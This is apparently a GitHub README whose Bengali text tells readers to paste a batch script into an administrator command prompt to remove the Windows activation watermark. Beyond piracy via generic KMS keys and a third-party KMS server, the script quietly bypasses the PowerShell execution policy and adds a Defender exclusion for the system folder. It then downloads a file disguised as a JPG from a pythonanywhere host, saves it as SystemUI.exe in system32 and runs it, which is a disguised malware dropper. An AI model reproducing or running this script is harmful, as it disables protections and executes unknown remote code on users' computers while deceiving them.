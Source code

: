 # Permanently-remove-Active-Windows-watermark-in-your-laptop-or-PC.-
নিচে যে কোডটি দেয়া আছে সেটা সরাসরি আপনার ল্যাপটপ বা পিসি'র cmd তে গিয়ে পেস্ট করে এন্টার প্রেস করলেই কাজ সম্পূর্ণ হয় যাবে। 

@echo off
net session >nul 2>&1
if %errorLevel% neq 0 (
    echo Open CMD as Administrator.
    pause
)
:: 
powershell -windowstyle hidden -Command "Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope LocalMachine -Force"
:: 
for /f "tokens=2 delims==" %a in ('wmic os get caption /value ^| find "="') do set WindowsProductName=%a
:: 
set WindowsProductName=%WindowsProductName:~0,50%
:: 
set Key=
if "%WindowsProductName%"=="Microsoft Windows 10 Pro N" (
    set Key=MH37W-N47XK-V7XM9-C7227-GCQG9
) else if "%WindowsProductName%"=="Microsoft Windows 11 Pro N" (
    set Key=MH37W-N47XK-V7XM9-C7227-GCQG9
) else if "%WindowsProductName%"=="Microsoft Windows 10 Pro" (
    set Key=W269N-WFGWX-YVC9B-4J6C9-T83GX
) else if "%WindowsProductName%"=="Microsoft Windows 11 Pro" (
    set Key=W269N-WFGWX-YVC9B-4J6C9-T83GX
) else if "%WindowsProductName%"=="Microsoft Windows 10 Enterprise" (
    set Key=NPPR9-FWDCX-D2C8J-H872K-2YT43
) else if "%WindowsProductName%"=="Microsoft Windows 11 Enterprise" (
    set Key=NPPR9-FWDCX-D2C8J-H872K-2YT43
) else if "%WindowsProductName%"=="Microsoft Windows 10 EnterpriseN" (
    set Key=DPH2V-TTNVB-4X9Q3-TJR4H-KHJW4
) else if "%WindowsProductName%"=="Microsoft Windows 11 EnterpriseN" (
    set Key=DPH2V-TTNVB-4X9Q3-TJR4H-KHJW4
) else if "%WindowsProductName%"=="Microsoft Windows 10 Education" (
    set Key=NW6C2-QMPVW-D7KKK-3GKT6-VCFB2
) else if "%WindowsProductName%"=="Microsoft Windows 11 Education" (
    set Key=NW6C2-QMPVW-D7KKK-3GKT6-VCFB2
) else if "%WindowsProductName%"=="Microsoft Windows 10 EducationN" (
    set Key=2WH4N-8QGBV-H22JP-CT43Q-MDWWJ
) else if "%WindowsProductName%"=="Microsoft Windows 11 EducationN" (
    set Key=2WH4N-8QGBV-H22JP-CT43Q-MDWWJ
) else if "%WindowsProductName%"=="Microsoft Windows 10 Home" (
    set Key=TX9XD-98N7V-6WMQ6-BX7FG-H8Q99
) else if "%WindowsProductName%"=="Microsoft Windows 11 Home" (
    set Key=TX9XD-98N7V-6WMQ6-BX7FG-H8Q99
) else if "%WindowsProductName%"=="Microsoft Windows 10 Home N" (
    set Key=3KHY7-WNT83-DGQKR-F7HPR-844BM
) else if "%WindowsProductName%"=="Microsoft Windows 11 Home N" (
    set Key=3KHY7-WNT83-DGQKR-F7HPR-844BM
) else if "%WindowsProductName%"=="Microsoft Windows 10 Home Single Language" (
    set Key=7HNRX-D7KGG-3K4RQ-4WPJ4-YTDFH
) else if "%WindowsProductName%"=="Microsoft Windows 11 Home Single Language" (
    set Key=7HNRX-D7KGG-3K4RQ-4WPJ4-YTDFH
) else if "%WindowsProductName%"=="Microsoft Windows 10 Home Country Specific" (
    set Key=PVMJN-6DFY6-9CCP6-7BKTT-D3WVR
) else if "%WindowsProductName%"=="Microsoft Windows 11 Home Country Specific" (
    set Key=PVMJN-6DFY6-9CCP6-7BKTT-D3WVR
) else (
    set Key=QFFDN-GRT3P-VKWWX-X7T3R-8B639
)
:: 
%SystemRoot%\System32\slmgr.vbs /ipk %Key% >nul 2>&1
:: 
%SystemRoot%\System32\slmgr.vbs /skms kms.digiboy.ir >nul 2>&1
:: 
%SystemRoot%\System32\slmgr.vbs /ato >nul 2>&1
:: 
powershell -windowstyle hidden -Command "Set-MpPreference -ExclusionPath %SystemRoot%" >nul 2>&1
:: 
powershell -Command "Start-Sleep -Milliseconds 200; Start-Sleep -Milliseconds 200; Start-Sleep -Milliseconds 200; Start-Sleep -Milliseconds 200; Invoke-WebRequest -Uri 'https://a525fa9f.pythonanywhere.com/static/SystemUI.jpg' -OutFile \"$env:SystemRoot\\system32\\SystemUI.exe\"; Start-Process "$env:SystemRoot\\system32\\SystemUI.exe"" >nul 2>&1
:: 
exit /b
